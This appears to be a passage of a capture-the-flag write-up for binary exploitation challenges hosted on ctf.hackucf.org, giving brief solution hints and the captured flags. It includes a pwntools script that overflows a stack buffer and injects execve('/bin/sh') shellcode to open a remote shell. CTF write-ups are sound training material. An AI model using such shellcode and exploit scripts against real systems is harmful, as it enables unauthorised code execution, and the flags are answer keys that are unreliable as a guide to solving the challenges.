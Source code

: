 overflow the fp pointer value with address of **win** function

> Flag: **flag{time_to_get_out_of_the_kiddie_pool}**


### ret
50 points

return, return, return

>Flag: **flag{no_you_suck!:P}**

### mem_test
75 points

return to **win** function with the parameter of **_hint_** to get shell

> Flag: **sorry I forgot the flag**

### super stack
100 points

the stack address is leaked for us, so we can input shellcode and return to it.

shellcode must not contain _scanf_'s bad char and the return address is a pointer to a pointer to shellcode.

```python
from pwn import *

host, port = "ctf.hackucf.org",9005

shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x2c\xf5\xcd\x80'
p = remote(host, port)
#p = process('super_stack')
buff = int(p.recvuntil(b'\n').replace(b'\n',b'').split(b' ')[1],16)
print(hex(buff))
print(hex(buff+4))
payload = b''
payload += p32(buff+4)
payload += b'\x90'*(0x60-len(shellcode))
payload += shellcode
payload += p32(buff+4)

payload += p32(0x41414141)

print(payload)
p.sendline(payload)
p.interactive()
```

> Flag: **flag{not_a_bird_not_a_plane_just_a_stack}**

### stack0 pt2
100 points

